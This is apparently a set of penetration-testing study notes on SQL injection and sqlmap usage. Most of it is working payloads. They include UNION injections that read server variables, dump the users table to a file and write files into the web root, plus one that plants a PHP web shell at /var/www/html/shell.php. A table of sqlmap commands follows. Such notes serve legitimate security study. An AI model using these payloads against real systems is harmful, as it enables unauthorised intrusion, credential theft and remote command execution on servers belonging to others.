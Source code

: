 ```sql
cn' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

>secure_file_priv value is empty, meaning that we can read/write files to any location.


##### SELECT INTO FILE:

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the SELECT .. INTO OUTFILE statement. The SELECT INTO OUTFILE statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add INTO OUTFILE '...' after our query to export the results into the file we specified. The below example saves the output of the users table into the /tmp/credentials file:

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
> To write to a file:
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

> To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file to read the server configuration, like Apache's configuration found at /etc/apache2/apache2.conf, Nginx's configuration at /etc/nginx/nginx.conf, or IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this wordlist for Linux or this wordlist for Windows. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.


>The UNION injection payload would be as follows:
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

> NOW TO GET REVERSE SHELL USING THIS:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```

## SQLMAP USAGE:

| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |